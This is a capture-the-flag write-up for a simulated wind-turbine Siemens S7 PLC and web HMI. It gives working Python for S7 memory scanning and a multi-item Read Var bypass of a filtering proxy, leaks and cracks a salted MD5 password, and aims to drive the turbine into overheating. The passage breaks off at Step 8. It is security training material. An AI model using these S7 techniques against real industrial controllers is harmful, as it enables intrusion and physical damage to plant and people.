







       <font size="10">Featherfall</font>

30<sup>th</sup> March 2026

Prepared By: Lean

Challenge Author(s): Lean

Difficulty: <font color=yellow>Medium</font>

Classification: Official

# [Synopsis](#synopsis)

- Wind turbine Siemens S7 PLC + web HMI -> recover a WebDAV endpoint from public JavaScript, download a compiled S7 filter module and topology map, scan the exposed `PE`, `PA`, and `DB` spaces over S7, reverse the proxy's first-item offset filter, bypass it with a multi-item read to leak the salted MD5 HMI credential from protected `DB` memory, log into the HMI, switch the PLC to manual, clear the interlock mask, drive pitch and yaw into an unsafe thermal state, and read the flag from the overheating alert.

## Description

Grid coordination has reported a pattern of "routine" turbine faults that Lia and Ivo no longer believe are accidental. Cut through the supplier's fake safety boundary and recover operator control of this wind turbine unit.*

## Skills Required

- Practical familiarity with S7Comm over ISO-on-TCP
- Comfort scripting HTTP and WebDAV interactions
- Ability to reason about binary packet formats and memory maps
- Basic reverse-engineering workflow for a small embedded binary
- Confidence correlating HMI observations with PLC state changes

## Skills Learned

- Pivoting from a static frontend asset into an exposed WebDAV share
- Using black-box memory scans to map Siemens `PE`, `PA`, and `DB` areas
- Recovering a proxy's trust model from decompiled packet-handling logic
- Smuggling protected S7 requests inside multi-item PDUs
- Turning PLC control primitives into a physical-process alert condition

## Application Overview

From a black-box perspective the target exposes two meaningful surfaces. The first is a web HMI that serves a login page, a public production summary, and a static JavaScript bundle. The second is a Siemens S7 endpoint that is reachable from the public side, but not directly. The WebDAV share exposed by the HMI reveals why: a topology image and a compiled filter module show that traffic reaches the PLC through a custom proxy layer rather than through the controller itself.

That separation defines the entire challenge. The HMI alone does not disclose credentials, and the S7 service alone appears to block the sensitive `DB` range that stores them. The exploit succeeds only when those two surfaces are combined. Public web recon reveals the hidden WebDAV export, WebDAV yields the proxy artifact, the proxy artifact explains how the S7 filter makes its decisions, and that understanding makes it possible to leak the salted credential from protected memory. Once the HMI password is recovered, the web panel becomes the control surface for pitch, yaw, brake state, and operating mode, while raw S7 is still used for the interlock bit that keeps the turbine thermally safe by default.

The final objective is not direct flag theft from memory. The flag is only returned by the HMI alert monitor after the simulated process enters the generator overtemperature condition and the alert latches active. That detail matters because it forces the exploit to finish in the physical-process layer rather than ending at authentication bypass.

## Technology Background

### HTTP and WebDAV in the Context of This Challenge

The public web application is useful even before authentication. The landing page leaks the HMI version string and exposes a summary endpoint that does not require a session. More importantly, the frontend JavaScript is a recon artifact in its own right. It contains the `/dav/` request path used by the browser to populate a WebDAV export list, as well as the field names and control actions that the panel will later expose after login. In other words, static frontend code reveals both a hidden data source and the eventual operator workflow.

WebDAV matters because it turns a normal web server into a browsable file export. A simple `PROPFIND` request returns XML describing the exported files, their names, and their sizes. In this case the two useful artifacts are `s7filter.bin`, a small compiled module that implements the PLC filter logic, and `topology.png`, which confirms that the S7 endpoint seen from the outside is a proxy in front of the real controller.

### S7Comm in the Context of This Challenge

Siemens S7 traffic here is spoken over ISO-on-TCP. The stack is TPKT, then COTP, then an S7 PDU. Before variable reads or writes are possible, the client completes the normal connection request and `Setup Communication` exchange. After that, `Read Var` and `Write Var` jobs are sent with function codes `0x04` and `0x05`.

The important concept for this challenge is the separation between memory areas. `PE` corresponds to process inputs, which behave like live sensor values. `PA` corresponds to process outputs and control words. `DB` corresponds to data-block memory, which carries metadata, summary values, limits, and secrets. Each variable item in a `Read Var` PDU encodes an area code, a DB number, a requested length, and a 24-bit bit address. That structure is exactly what the proxy is trying to inspect, and exactly what the bypass abuses.

### HMI Workflow in the Context of This Challenge

Once authenticated, the HMI becomes a live turbine panel rather than a mere login form. It exposes telemetry for rotor speed, wind conditions, yaw alignment, blade pitch, powertrain temperatures, vibration, and protection words. It also exposes control actions for brake release, operating mode changes, pitch setpoint, and yaw setpoint. The alert monitor is the final sink for the exploit because the overheating flag is not a standalone endpoint; it replaces the message text of the critical generator-temperature alert only after the unsafe state persists for the required trip cycles.

## Step-by-Step Attack Path

---

### Step 1 - Enumerate the Public HMI and Its Static JavaScript

The initial HMI page is already more informative than a normal login screen. It identifies the product branding, version string, and site identifier, and it populates a wind-farm summary panel without requiring authentication. That tells us immediately that the application is willing to expose some operational state publicly. The next move is to treat the frontend itself as an attack surface and fetch the referenced static JavaScript bundle rather than interacting only through the rendered HTML.

That bundle is where the first real pivot appears. It contains a `fetch("/dav/", { method: "PROPFIND" })` call that is used client-side to enumerate exported files. It also defines the field names that the authenticated panel renders, including `interlock_mask`, `alarm_code`, `mode`, `set_pitch`, `set_yaw`, and `set_mode`. Those names matter even before login because they tell us the HMI is acting as a fairly thin client over live PLC state rather than as a heavily mediated workflow engine.

**Python snippet: fetch the public index, summary endpoint, and static JavaScript**

```python
import re
import requests


base = "http://127.0.0.1:5000"
session = requests.Session()

index = session.get(f"{base}/", timeout=5)
summary = session.get(f"{base}/api/summary", timeout=5)
app_js = session.get(f"{base}/static/app.js", timeout=5)

print("index status:", index.status_code)
print("summary status:", summary.status_code)
print("js status:", app_js.status_code)

title = re.search(r"<title>(.*?)</title>", index.text).group(1)
dav = re.search(r'fetch\("(/dav/?)"', app_js.text).group(1)

print("title:", title)
print("webdav endpoint:", dav)
```

**Validated public HMI output**

```text
[index title] Wind Farm Control - Wind Farm Portal (ver. 11.06.13) - T02
[js WebDAV hint] /dav/
[js status labels] const statusLabels = {
  brake_status: { 0: "Released", 1: "Engaged" },
  mode: { 0: "Auto", 1: "Manual" },
};
```

```json
{
  "data": {
    "availability_pct": 98.52787017822266,
    "capacity_factor_pct": 23.668575286865234,
    "data_availability_pct": 76.14921569824219,
    "handover_date": "22.03.2025",
    "mean_wind_speed_mps": 6.44956111907959,
    "total_production_mwh": 574715.125,
    "turbine_count": "1 (1)"
  },
  "ok": true
}
```

The key lesson from this step is that public static assets are part of the attack surface. We do not need to guess that WebDAV exists; the application discloses it directly in its own frontend code.




---

### Step 2 - Use WebDAV to Recover the Internal Artifacts

Once the `/dav/` path is known, the correct protocol interaction is `PROPFIND`, not an ordinary `GET` directory listing. WebDAV replies with a `207 Multi-Status` XML document containing each exported object. In this challenge the response is immediately high value because it yields both a binary and a diagram: `s7filter.bin` and `topology.png`.

The topology map is the first clue that the S7 service is mediated. It shows the public side reaching a dedicated filtering layer before the actual Siemens PLC. The binary confirms that the filter is not just a firewall rule or a listener ACL. Its first bytes identify it as an ELF image, and the machine field corresponds to AVR, which is consistent with a small embedded packet-filter module. That is precisely the kind of component where a narrow parsing assumption can become exploitable.

**Python snippet: issue `PROPFIND` and list the exported artifacts**

```python
import re
import requests


base = "http://127.0.0.1:5000"
resp = requests.request("PROPFIND", f"{base}/dav/", timeout=5)
print("status:", resp.status_code)

files = re.findall(r"<D:href>([^<]+)</D:href>", resp.text)
print([entry for entry in files if entry != "/dav/"])

bin_resp = requests.get(f"{base}/dav/s7filter.bin", timeout=5)
print("s7filter.bin size:", len(bin_resp.content))
print("s7filter.bin head:", bin_resp.content[:16].hex())
```

**Validated WebDAV output**

```text
[webdav status] 207
<?xml version="1.0" encoding="utf-8"?><D:multistatus xmlns:D="DAV:"><D:response><D:href>/dav/</D:href>...
<D:response><D:href>/dav/s7filter.bin</D:href>...
<D:response><D:href>/dav/topology.png</D:href>...
```

```text
len 700
head 7f454c46010101000000000000000000
```

At this point the architecture is already understandable from the outside: the web stack exposes documentation and a filter artifact, and that artifact exists because clients are not supposed to talk to the PLC memory map directly.




---

### Step 3 - Speak S7 Through the Proxy and Map the 256-Byte Memory Areas

The next task is to stop thinking of the S7 endpoint as a black box and start measuring its behavior. The PLC exposes 256-byte regions for `PE`, `PA`, and `DB`, so a practical first pass is to read each area in fixed 32-byte chunks from offset `0` through `255`. The point of the scan is not just data collection. It is to learn where the proxy allows traffic, where it refuses it, and whether the denied window lines up with anything already suggested by the HMI.

At protocol level the read primitive is a standard `Read Var` job. After the ISO-on-TCP connection request and S7 setup exchange, each variable item is described by a 12-byte specification that includes the area code and the starting bit address. The response returns one data item per request item, each with its own return code. That per-item structure becomes important later when the proxy is bypassed with a multi-item request.

The scan shows a clean separation of roles. `PE` is fully readable and looks like live float data. `PA` is fully readable and mostly sparse, which fits output/setpoint storage. `DB` is readable through offset `191`, then requests that overlap `200..223` are rejected by a forged error response from the proxy rather than by the PLC. That immediately suggests a protected secret window inside the DB space rather than a blanket DB policy.

**Python snippet: complete the S7 handshake and scan each 256-byte area**

```python
import socket
import struct


PE = 0x81
PA = 0x82
DB = 0x84


def tpkt(payload):
    return b"\x03\x00" + struct.pack(">H", len(payload) + 4) + payload


def cotp(s7, eot=True):
    return b"\x02\xf0" + (b"\x80" if eot else b"\x00") + s7


def recv_tpkt(sock):
    header = sock.recv(4)
    length = (header[2] << 8) | header[3]
    body = b""
    while len(body) < length - 4:
        body += sock.recv(length - 4 - len(body))
    return header + body


def s7_connect(sock):
    sock.sendall(tpkt(bytes.fromhex("11E00000000100C0010AC1020100C2020300")))
    recv_tpkt(sock)

    param = bytes.fromhex("F0000001 0001")
    data = bytes.fromhex("0003C0")
    hdr = b"\x32\x01\x00\x00\x01\x01" + struct.pack(">HH", len(param), len(data))
    sock.sendall(tpkt(cotp(hdr + param + data)))
    recv_tpkt(sock)


def item(area, length, offset, db_num=0):
    return (
        b"\x12\x0a\x10\x02"
        + struct.pack(">H", length)
        + struct.pack(">H", db_num)
        + bytes([area])
        + (offset * 8).to_bytes(3, "big")
    )


def read_single(sock, area, offset, length, db_num=0):
    param = b"\x04\x01" + item(area, length, offset, db_num)
    hdr = b"\x32\x01\x00\x00\x60\x01" + struct.pack(">HH", len(param), 0)
    sock.sendall(tpkt(cotp(hdr + param)))
    return recv_tpkt(sock)


with socket.create_connection(("127.0.0.1", 1022), timeout=10) as sock:
    s7_connect(sock)
    for area_name, area in [("PE", PE), ("PA", PA), ("DB", DB)]:
        print(area_name)
        for off in range(0, 256, 32):
            resp = read_single(sock, area, off, 32, 0)
            print(off, resp.hex())
```

**Validated S7 scan output**

```text
[PE scan]
  000-031: OK 0000000000000000...
  032-063: OK 3e156c9640521bf9...
  064-095: OK 3f31132000000000...
  096-127: OK 42017ccb3fdf452c...
  128-159: OK 0000000000000000...
  160-191: OK 0000000000000000...
  192-223: OK 0000000000000000...
  224-255: OK 0000000000000000...

[PA scan]
  000-031: OK 0000000000000000...
  032-063: OK 0000000000000000...
  064-095: OK 0000000000000000...
  096-127: OK 0000000000000000...
  128-159: OK 0000000000000000...
  160-191: OK 0000000000000000...
  192-223: OK 0000000000000000...
  224-255: OK 0000000000000000...

[DB scan]
  000-031: OK 5430320000000000...
  032-063: OK 32322e30332e3230...
  064-095: OK 490c4fb242984aca...
  096-127: OK 0000000000000000...
  128-159: OK 0000000000130003...
  160-191: OK 0000000000000000...
  192-223: BLOCK raw=0300001402f08032030000600100020001040105
  224-255: BLOCK raw=0300001402f08032030000600100020001040105
```

The blocked windows line up cleanly enough to infer that the real secret range begins around `DB200` and extends into the next 32-byte chunk. The proxy is therefore filtering by offset, not by semantic field name or by HMI role.



---

### Step 4 - Confirm What the Proxy Treats as Writable and What It Refuses

Read behavior alone is not enough. The exploit eventually needs both HMI-side control writes and a direct PLC-side interlock change, so the next question is which memory areas are writable through the proxy. Two simple write probes answer that immediately. A write to `PE` is rejected with the same short forged error pattern used for blocked DB reads, while a write to `PA` succeeds. A direct write into the protected DB window is also rejected.

That behavior tells us three important things. First, `PE` is effectively read-only from the public side, which is consistent with it representing process inputs rather than operator commands. Second, `PA` is where the HMI's operator actions are likely landing, because those writes are allowed. Third, the protected DB window is guarded symmetrically for both reads and writes, which is why a simple direct read of the secret hash will never work.

**Python snippet: test one blocked `PE` write, one allowed `PA` write, and one blocked protected-DB access**

```python
import socket
import struct


def write_single(sock, area, offset, data, db_num=0):
    spec = item(area, len(data), offset, db_num)
    param = b"\x05\x01" + spec
    data_block = b"\x00\x04" + struct.pack(">H", len(data) * 8) + data
    hdr = b"\x32\x01\x00\x00\x70\x01" + struct.pack(">HH", len(param), len(data_block))
    sock.sendall(tpkt(cotp(hdr + param + data_block)))
    return recv_tpkt(sock)


with socket.create_connection(("127.0.0.1", 1022), timeout=10) as sock:
    s7_connect(sock)

    pe_resp = write_single(sock, PE, 20, struct.pack(">f", 14.0))
    pa_resp = write_single(sock, PA, 112, struct.pack(">f", 4.0))
    db_resp = write_single(sock, DB, 200, b"A" * 16)

    print("PE write:", pe_resp.hex())
    print("PA write:", pa_resp.hex())
    print("DB write:", db_resp.hex())
```

**Validated write-probe output**

```text
[PE write blocked] 0300001402f08032030000700100020001050105
[PA write reply] 0300001602f0803203000070010002000100000501ff
DB[200:216] single read ok: False ret=None raw=0300001402f08032030000600100020001040105
DB[200:216] write response: 0300001402f08032030000700100020001050105
```

A forged error PDU this short is a strong clue that the proxy is manufacturing the denial locally instead of forwarding the request to the PLC and relaying a normal controller response. That is exactly the kind of behavior that becomes exploitable when the filter's parser is too narrow.

---

### Step 5 - Reverse the Filter Artifact and Recover the Real Trust Model

The WebDAV binary exists for a reason, so this is the point where reverse engineering becomes justified. After pulling `s7filter.bin` and loading it into a decompiler, the filter logic turns out to be much simpler than the network architecture suggests. The decision rule is not "parse the whole S7 `Read Var` request and evaluate every item." It is "look at the first item at a fixed offset, derive one area and one byte offset, and decide based on that."

That distinction is the bug. The filter assumes a single-item access pattern and never iterates the item list even though the S7 function code supports multiple items in one `Read Var` PDU.

To keep this grounded in the actual artifact rather than in hand-written pseudocode, I rebuilt the same AVR stage from the repo Dockerfile and inspected the exact stripped module with AVR binutils:

```bash
docker build --target avr_builder -t featherfall-avr-builder .
docker run --rm featherfall-avr-builder bash -lc "avr-readelf -h /src/s7filter.bin"
docker run --rm featherfall-avr-builder bash -lc "avr-readelf -S /src/s7filter.bin"
docker run --rm featherfall-avr-builder bash -lc "avr-objdump -d /src/s7filter.bin | sed -n '1,120p'"
```

The first two commands show that the downloaded `s7filter.bin` is actually a stripped AVR ELF despite its `.bin` name:

```text
ELF Header:
  Class:                             ELF32
  Data:                              2's complement, little endian
  Type:                              EXEC (Executable file)
  Machine:                           Atmel AVR 8-bit microcontroller
  Entry point address:               0x0
  Flags:                             0x5, avr:5

Section Headers:
  [ 1] .data             PROGBITS        00800100 00013e 000000 00  WA  0   0  1
  [ 2] .text             PROGBITS        00000000 000074 0000ca 00  AX  0   0  2
```

Because the file is stripped, there are no function names. The vector table occupies `0x00..0x7c`, startup code runs at `0x68`, and the only meaningful subroutine begins at `0x80`. Here is the relevant disassembly excerpt:

```text
00000080 <.text+0x80>:
  80: fc 01        movw  r30, r24
  82: 6f 31        cpi   r22, 0x1F    ; 31
  84: 71 05        cpc   r23, r1
  86: d8 f0        brcs  .+54         ; 0xbe
  88: 32 8d        ldd   r19, Z+26    ; pkt[28]
  8a: 83 8d        ldd   r24, Z+27    ; pkt[29]
  8c: 24 8d        ldd   r18, Z+28    ; pkt[30]
  8e: 96 89        ldd   r25, Z+22    ; pkt[24]
  90: 94 38        cpi   r25, 0x84    ; DB area
  92: a9 f4        brne  .+42         ; 0xbe
  94: 90 e0        ldi   r25, 0x00
  96: a0 e0        ldi   r26, 0x00
  98: b0 e0        ldi   r27, 0x00
  9a: ba 2f        mov   r27, r26
  9c: a9 2f        mov   r26, r25
  9e: 98 2f        mov   r25, r24
  a0: 88 27        eor   r24, r24
  a2: a3 2b        or    r26, r19
  a4: 82 2b        or    r24, r18
  a6: 53 e0        ldi   r21, 0x03
  a8: b6 95        lsr   r27
  aa: a7 95        ror   r26
  ac: 97 95        ror   r25
  ae: 87 95        ror   r24
  b0: 5a 95        dec   r21
  b2: d1 f7        brne  .-12         ; 0xa8
  b4: 88 5c        subi  r24, 0xC8    ; 200
  b6: 91 09        sbc   r25, r1
  b8: 21 e0        ldi   r18, 0x01
  ba: 48 97        sbiw  r24, 0x18    ; 24
  bc: 08 f0        brcs  .+2          ; 0xc0
  be: 20 e0        ldi   r18, 0x00
  c0: 82 2f        mov   r24, r18
  c2: 08 95        ret
```

From that output, the reconstruction is mechanical:

1. `movw r30, r24` treats the first argument as a pointer in `Z`, and the length comes in `r22:r23`.
2. `cpi r22, 0x1F` followed by `brcs` is the early `len < 31` reject.
3. `ldd r25, Z+22` loads the area byte from `pkt[24]`, which is `pkt[17 + 2 + 3]`: parameter offset `17`, plus `2` bytes for function and item count, plus `3` within the first VarSpec.
4. `ldd r19/r24/r18, Z+26..28` loads the three address bytes from `pkt[28..30]`, which is the 24-bit S7 bit address field at `17 + 2 + 7`.
5. The `lsr`/`ror` sequence runs three times, so the module converts bit address to byte offset with `addr >> 3`.
6. `subi r24, 0xC8` and `sbiw r24, 0x18` implement the interval check `200 <= byte_off < 224`.

If I keep the symbols stripped and only lift what the assembly proves, the decompiler-style pseudocode looks like this:

```c
undefined1 FUN_00080(byte *param_1, ushort param_2)
{
  uint uVar1;

  if (param_2 < 0x1f) {
    return 0;
  }

  if (param_1[0x18] != 0x84) {
    return 0;
  }

  uVar1 = ((uint)param_1[0x1a] << 0x10) |
          ((uint)param_1[0x1b] << 8) |
          (uint)param_1[0x1c];
  uVar1 = uVar1 >> 3;

  if ((0xc7 < uVar1) && (uVar1 < 0xe0)) {
    return 1;
  }

  return 0;
}
```

Only after that lift do the packet semantics become obvious:

- `param_1[0x18]` is packet byte `24`, which is the first VarSpec's area code.
- `param_1[0x1a..0x1c]` is packet bytes `26..28` relative to the function start, or `28..30` in the full TPKT, which is the first VarSpec's 24-bit bit-address field.
- The return value is a Boolean "block this request" decision, not a full parser result.

This explains every observation from the previous steps. Single-item reads of `DB200+` are blocked because the first and only item targets the protected range. Single-item writes to `PE` are blocked elsewhere in the proxy, not in this AVR module. But if the first item is harmless and the second or third item is sensitive, the module never notices. The attack therefore does not need a parser confusion bug or a memory corruption bug. It only needs a multi-item request whose first item looks acceptable.

---

### Step 6 - Smuggle the Secret Read Inside a Multi-Item `Read Var` PDU

With the trust model understood, the bypass becomes straightforward. Instead of sending a single `Read Var` for the protected hash or salt, send one `Read Var` containing three items. The first item is a harmless read from `DB0.DBB0`, which keeps the proxy happy because that is the only item it evaluates. The second and third items target the real secrets at `DB0.DBB200..215` and `DB0.DBB217..224`.

At packet level this is still a completely valid S7 request. The parameter block begins with function code `0x04`, item count `0x03`, and then three ordinary variable specifications. The PLC processes all three items and returns three data blocks. The proxy only inspects the first variable specification, forwards the whole PDU, and the controller obediently returns the protected bytes in the later response items.

**Python snippet: build a multi-item read with one benign item first and the protected items after it**

```python
import socket
import struct


def read_multi(sock, specs):
    param = b"\x04" + bytes([len(specs)]) + b"".join(specs)
    hdr = b"\x32\x01\x00\x00\x60\x01" + struct.pack(">HH", len(param), 0)
    sock.sendall(tpkt(cotp(hdr + param)))
    return recv_tpkt(sock)


def parse_multi_read_response(pdu, count):
    param_len = (pdu[13] << 8) | pdu[14]
    data_len = (pdu[15] << 8) | pdu[16]
    data = pdu[19 + param_len : 19 + param_len + data_len]

    items = []
    pos = 0
    for _ in range(count):
        ret = data[pos]
        transport = data[pos + 1]
        bit_count = (data[pos + 2] << 8) | data[pos + 3]
        pos += 4

        byte_len = bit_count // 8 if transport in (0x02, 0x03, 0x04, 0x05, 0x06) else (bit_count + 7) // 8
        chunk = data[pos : pos + byte_len]
        pos += byte_len
        if byte_len % 2 == 1:
            pos += 1
        items.append((ret, chunk))
    return items


with socket.create_connection(("127.0.0.1", 1022), timeout=10) as sock:
    s7_connect(sock)

    specs = [
        item(DB, 1, 0),      # benign first item
        item(DB, 16, 200),   # protected MD5 digest
        item(DB, 8, 217),    # protected salt
    ]

    resp = read_multi(sock, specs)
    items = parse_multi_read_response(resp, 3)

    hash_bytes = items[1][1]
    salt_bytes = items[2][1]

    print("hash:", hash_bytes.hex())
    print("salt:", salt_bytes.hex())
```

**Validated bypass output**

```text
[smuggled DB item1] 255 54
[smuggled hash] 81b094f8daf8f7f9c667bc35bd4e1c09
[smuggled salt] fe6429b98110627e
```

This is the exploit's critical transition point. The challenge goes from "a proxy blocks protected DB offsets" to "the proxy only blocks protected offsets when they appear in the first item it bothers to parse."

---

### Step 7 - Crack the Salted HMI Password and Authenticate to the Panel

The leaked secret material is not a plaintext password. It is a 16-byte MD5 digest and an 8-byte salt. The HMI expects a password, so the next step is an offline crack over the expected password candidate set. The important detail is ordering: the salt is concatenated after the candidate password before hashing. Once the digest matches, the recovered password can be used directly against the web login form.

From the outside there is nothing sophisticated about the login workflow. It is an ordinary POST of `userName` and `pw`, and a successful authentication redirects to `/panel`. The recovered password is the real secret; the account name is the obvious default administrative target for a single-turbine console and authenticates successfully as `admin`.

**Python snippet: crack the salted digest and log in**

```python
import hashlib
import requests


def crack_password(target_hash, salt, candidates):
    for pwd in candidates:
        if hashlib.md5(pwd.encode() + salt).digest() == target_hash:
            return pwd
    raise RuntimeError("password not found")


password = crack_password(hash_bytes, salt_bytes, PASSWORD_POOL)
print("password:", password)

session = requests.Session()
resp = session.post(
    "http://127.0.0.1:5000/",
    data={"userName": "admin", "pw": password},
    allow_redirects=False,
    timeout=5,
)

print(resp.status_code, resp.headers.get("Location"))
```

**Validated credential recovery**

```text
[cracked password] michelle
[login] 302 /panel
```

At this point the exploit leaves low-level memory extraction and enters the operator workflow that the HMI was always designed to expose.

---

### Step 8 - Enumerate the Authenticated Panel and Understand the Control Path

The authenticated panel is where the physical process becomes understandable. The HTML and live APIs show the structure of the console clearly: primary telemetry, powertrain temperatures, pitch and yaw controls, protection words, and an alert monitor. The baseline state is safe and stable. The turbine is in automatic mode, the interlock mask is set, yaw is aligned with wind direction, blade pitch is modest, and generator temperature sits well below the alert threshold.

The HMI also tells us how control authority is meant to work. Pitch and yaw changes are not accepted while the controller is in auto mode, and the API returns an explicit error if we try. That means the exploit path must first move the PLC into manual mode through the HMI before the pitch and yaw setpoints can be abused. The panel therefore exposes both the controls that matter and the rules that govern when they can be used.

**Python snippet: fetch baseline telemetry and observe the manual-mode requirement**

```python
import json
import requests


